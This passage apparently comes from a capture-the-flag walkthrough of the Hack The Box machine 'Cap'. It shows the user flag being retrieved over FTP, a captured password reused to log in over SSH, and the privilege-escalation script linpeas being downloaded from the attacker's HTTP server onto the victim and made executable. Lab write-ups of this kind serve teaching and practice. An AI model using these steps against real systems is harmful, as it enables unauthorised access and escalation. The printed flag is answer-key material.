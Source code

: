 There's a user.txt, let's download it to our local machine.

```console
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (732.4219 kB/s)
```

We can now exit the ftp server and view the file on our local machine.

```console
kali@kali:~$ cat user.txt
dd129f8df1ccc06c8caba438afa6695c
```

From the `nmap` scan we ran before, there was a ssh service (port 22) running, let's try to use the same set of credentials to ssh onto the machine.

```console
kali@kali:~$ ssh nathan@10.10.10.245 -p 22
nathan@10.10.10.245's password: Buck3tH4TF0RM3!

nathan@cap:~$ 
```

We are now in the system as nathan.

## Root Flag

### Privilege Escalation

First, on our local machine, make a `transfer` directory and then download `linpeas.sh` (used for scanning the system for privilege escalation).

```console
kali@kali:~/transfer$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

We can now host a http server to transfer the script over to the system (victim machine).

```console
kali@kali:~/transfer$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now on the box (victim machine), let's change our working directory to `/tmp` and then get the script from our local server.

```console
nathan@cap:~$ cd /tmp
nathan@cap:/tmp$ wget http://10.10.14.114:8000/linpeas.sh
--2021-09-14 00:18:39--  http://10.10.14.114:8000/linpeas.sh
Connecting to 10.10.14.114:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473164 (462K) [text/x-sh]
Saving to: linpeas.sh

linpeas.sh 100%[==============================================>] 462.07K   871KB/s    in 0.5s    

2021-09-14 00:18:40 (871 KB/s) - linpeas.sh saved [473164/473164]
nathan@cap:/tmp$ chmod +x linpeas.sh
```
